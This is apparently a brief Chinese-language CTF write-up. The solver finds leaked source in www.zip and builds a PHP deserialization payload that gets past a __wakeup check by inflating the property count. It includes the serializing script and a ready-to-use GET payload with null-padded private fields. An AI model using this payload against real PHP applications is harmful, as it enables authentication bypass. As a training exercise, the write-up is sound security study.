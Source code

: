 ctf-scan扫到www.zip得到源码, 分析，反序列化

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
$b = serialize($a);
echo $b;
```

需要绕过wakeup
```
O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}  属性数大于实际数就会绕过wakeup，name后面大于2就行
O:4:"Name":3:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
```
由于 private 会输出 ASCII 码为 0 的字符(不可见字符),(Sublime输出php时能看出来)，自己补一下。

payload: `?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

